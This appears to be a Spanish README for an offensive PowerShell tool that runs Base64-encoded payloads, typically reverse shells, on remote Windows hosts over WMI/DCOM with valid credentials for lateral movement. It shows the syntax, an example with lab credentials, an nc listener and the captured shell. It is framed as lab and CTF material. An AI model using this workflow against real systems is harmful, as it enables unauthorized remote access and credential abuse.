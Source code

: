# Invoke-WinRM.ps1

Este script de PowerShell permite ejecutar comandos de forma remota en sistemas Windows mediante DCOM/CIM (WMI), 
usando credenciales válidas (movimiento lateral). El payload se pasa como un string en Base64, codificado desde PowerShell.

## ⚠️ Uso ético

Este script está diseñado exclusivamente para laboratorios de pruebas, CTFs o entornos controlados con fines educativos o de auditoría. **No debe utilizarse en sistemas sin autorización expresa.**

---

## 💻 Requisitos

- PowerShell 5.0+
- Acceso a la red al objetivo
- Credenciales válidas del usuario destino (hash NTLM)
- Permisos de ejecución WMI/COM

---

## 🔧 Sintaxis

```powershell
Invoke-LM -TargetIP <IP> -Username <usuario> -Password <clave> -PayloadBase64 <payload_base64>
```

📦 Parámetros

Parámetro | Descripción
TargetIP | Dirección IP del objetivo
Username | Nombre de usuario válido en el host destino
Password | Contraseña del usuario
PayloadBase64 | Payload en base64, normalmente un reverse shell

🧪 Ejemplo de uso

```powershell
.\Invoke-WinRM.ps1 -TargetIP \"192.168.109.72\" -Username \"jen\" -Password \"Nexus123!\" -PayloadBase64 $payload64
```

📥 Resultado

```bash
# En Kali
nc -nlvp 443

# Output esperado
connect to [192.168.45.200] from (UNKNOWN) [192.168.109.72] 61414
whoami
corp\\jen
```
